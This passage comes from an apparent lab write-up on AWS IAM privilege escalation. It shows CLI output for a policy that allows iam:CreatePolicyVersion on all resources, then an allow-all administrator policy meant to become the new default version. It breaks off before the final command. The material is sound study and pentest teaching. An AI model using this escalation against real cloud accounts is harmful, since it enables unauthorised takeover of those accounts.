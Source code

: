 ```
    }
}
```

Observe the Description and `DefaultVersionId`, we can retrive the policy and check what permission it assigns to the user using the versionId of the policy.\
As you can observe, the policy allows the user to `CreatePolicyVersion` on any (*) resource. Here, a user can create a new policy with elevated privileges and assign it to themselves to escalate the privileges.  

```
❯ aws iam get-policy-version --policy-arn arn:aws:iam::9[REDACTED]2:policy/privesc1-CreateNewPolicyVersion --version-id v1 --profile ayush
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": "iam:CreatePolicyVersion",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2024-01-21T19:26:56+00:00"
    }
}
```

We will create a policy which gives access to everything in our environment, basically Admin level privileges.

```
❯ vim allow_all.json

❯ cat allow_all.json
{
   "Version": "2012-10-17",
   "Statement": [
       {
           "Sid": "AllowEverything",
           "Effect": "Allow",
           "Action": "*",
           "Resource": "*"
       }
    ]
 }
```

And, we will create a new policy version and set it as the default version. 

